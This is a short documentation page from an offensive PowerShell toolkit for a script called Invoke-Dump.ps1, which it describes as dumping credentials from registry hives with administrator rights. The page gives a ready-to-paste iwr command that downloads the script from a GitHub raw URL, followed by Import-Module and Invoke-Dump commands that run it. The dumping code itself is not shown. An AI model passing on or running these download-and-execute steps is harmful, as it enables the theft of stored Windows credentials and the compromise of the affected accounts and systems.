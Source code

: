 ## Invoke-Dump.ps1

|Function name|Description|Privileges|Notes|Author|
|---|---|---|---|---|
|[Invoke-Dump](https://github.com/r00t-3xp10it/redpill/blob/main/lib/Dump-Sam/Invoke-Dump.ps1)|Dump credentials from registry hives.|Administrator|[Screenshot](https://github.com/r00t-3xp10it/redpill/blob/main/lib/Dump-Sam/Invoke-HiveDump.png)|<b><i>@_tmenochet</i></b>|

<br />

**downloadcmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Dump-Sam/Invoke-Dump.ps1" -OutFile "Invoke-Dump.ps1"
```

<br />

**execute:**
```powershell
Import-Module -Name ".\Invoke-Dump.ps1" -Force
Invoke-Dump
```
